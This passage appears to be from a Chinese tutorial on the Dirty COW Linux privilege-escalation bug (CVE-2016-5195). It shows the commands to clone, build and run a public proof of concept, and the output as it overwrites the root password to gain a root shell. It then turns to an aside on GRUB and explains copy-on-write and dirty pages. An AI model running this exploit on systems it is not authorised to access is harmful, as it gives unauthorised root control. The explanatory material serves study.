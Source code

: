 看到内核已经是老的了，可以开搞了。
去 GitHub 偷一个 PoC

```bash
git clone https://github.com/gbonacini/CVE-2016-5195.git
cd CVE-2016-5195
make
```

然后执行一下，root 就到手了

```bash
$ ./dcow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

\cp /tmp/.ssh_bak /etc/passwd
\rm /tmp/.ssh_bak
root@ubuntu:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@ubuntu:~# \cp /tmp/.ssh_bak /etc/passwd
root@ubuntu:~# \rm /tmp/.ssh_bak
root@ubuntu:~#
```

### 拓展之 GRUB

GRUB，全称 GRand Unified Bootloader，就是一个引导程序，是计算机启动时第一个加载的软件，负责加载操作系统的内核，然后由内核初始化操作系统的其他部分（如 shell、显示管理、桌面环境等）。

但是还有一个有意思的点 —— GRUB 既是引导程序，也是一个引导管理器。

那么引导管理器又是个什么东东呢？

也不复杂，它的作用就是让你能选择不同的操作系统（当然你得有两个以上的操作系统才有得选是吧）

## 原理

极致省流版原理：**条件竞争导致只读文件被写入**

可以先说说这个命令的由来，相信熟悉 Docker 的同学对**写时复制**（Copy-On-Write）这个概念并不陌生，这个机制的意思就是一个资源被复制成两份时，如果双方都不存在修改，那么**实际上就只会存在一份资源**。熟悉 Python 的同学也可以尝试一下如下代码：

```python
a = 1
b = 1
print(id(a), id(b))  # 140714691031848 140714691031848
print(a is b)  # True
a = 2
print(id(a), id(b))  # 140714691031880 140714691031848
```

这是个应用非常广泛的机制，就比如 **VMWare 的快照**，你应该好奇过它是怎么做到能保存一个状态但又没有复制一个完整的虚拟机，没错，它就 COW 机制的一个典型应用。

计组 review 之 —— dirty page，即脏页，指的是内存中被修改过但还没有写回磁盘的页面。
